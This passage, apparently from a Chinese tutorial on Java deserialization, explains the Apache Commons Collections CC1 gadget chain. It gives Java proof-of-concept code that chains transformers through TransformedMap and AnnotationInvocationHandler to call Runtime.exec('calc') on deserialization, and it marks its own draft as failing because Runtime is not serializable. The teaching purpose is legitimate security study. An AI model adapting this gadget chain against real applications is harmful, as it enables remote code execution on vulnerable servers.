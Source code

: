 从上图我们可以看到 ChainedTransformer 类的 transform 方法可以改变传入的对象。因为如果我们令当前的 iTransformers 是一个 ConstantTransformer 实例（构造函数传入一个 RUntime 类对象），然后 object 是一个 AnnotationTypexxx 对象，那么根据 ConstantTransformer 的 transform 方法，我们不就成功地得到了一个 Runtime 类对象吗？并且我们还可以看到 ChainedTransformer 类是递归地调用 transform 方法的，所以我们紧接着就会调用下一轮的 transfrom 方法，不过此时传入的对象是 Runtime 类对象，而 iTransformers 是一个我们可控的 Transformer 数组，所以我们可以让第二轮的 iTransformers 为一个 InvokerTransformer 类对象，那这样不就调用到 `InvokerTransformer.transfrom(runtime)` 了吗？这完美符合我们前面的调用链。

根据以上分析我们就完美的构造了一条链子出来，现在尝试编写代码

```java=
public static void main(String[] args) throws Exception{

                Runtime runtime = Runtime.getRuntime();
                InvokerTransformer invokerTransformer = new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{"calc"});
                HashMap<Object, Object> hashMap = new HashMap<>();
                hashMap.put("value", "xxx");

                ConstantTransformer constantTransformer = new ConstantTransformer(runtime); //错误代码，Runtime类不能序列化，所以后续会报错
                Transformer[] transformers = {constantTransformer,invokerTransformer};

                ChainedTransformer chainedTransformer  =new ChainedTransformer(transformers);


                Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
                // decorateMap 是一个 TransformedMap 类对象 （class org.apache.commons.collections.map.TransformedMap）
             
                Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
                Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
                constructor.setAccessible(true);

                Object o = constructor.newInstance(Target.class,decorateMap);
                serialize(o);
                unserialize("ser.bin");


        }



public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        }
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();

        return obj;
        }
        
```
